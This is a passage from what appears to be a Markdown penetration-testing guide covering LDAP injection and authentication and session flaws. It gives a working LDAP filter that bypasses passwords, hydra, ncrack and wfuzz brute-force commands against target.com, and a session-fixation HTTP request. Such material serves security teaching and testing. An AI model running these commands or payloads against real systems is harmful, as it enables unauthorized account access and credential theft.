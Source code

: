 ```
(&(uid=*)(|(uid=*))(userPassword=PASS))
```

The **(|(uid=*))** part matches any user, so the filter is always true and you log in without the real password.

---

## 🔑 Authentication & Session Issues

These issues show up when login or session management isn’t handled properly. In simple terms, any flaw that lets an attacker impersonate another user or access data they shouldn’t is in this category.

### Weak password policies

If a site allows really simple, short, or common passwords, it’s an easy target. You can spot this when accounts have passwords like 123456 or password. To test it, tools like hydra are perfect:

```
hydra -l admin -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect"
```

### Brute force / Credential stuffing

This is when attackers **try lots of passwords** or **reused credentials** from leaks. You can usually spot it **if the site doesn’t limit login attempts** or lock accounts.

Example with **ncrack**:

```
ncrack -u admin -P common-passwords.txt target.com:22
```

> 📝 **NOTE**: **Ncrack** is used for efficient and **safe brute-forcing** of **network services** (SSH, RDP, FTP, etc.) and is more stable, while Hydra supports more protocols but can overload or crash services.



Example using **wfuzz** on a **web login form**:

```
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc 401 http://target.com/login -d "username=admin&password=FUZZ"
```

### Session fixation

Here, the attacker forces a **known session ID** and waits for the user to log in. If the site doesn’t change the **session ID** after login, the attacker can **hijack** it.

Example HTTP request:

```
GET /login HTTP/1.1
Host: target.com
Cookie: sessionid=KNOWNSESSIONID
```
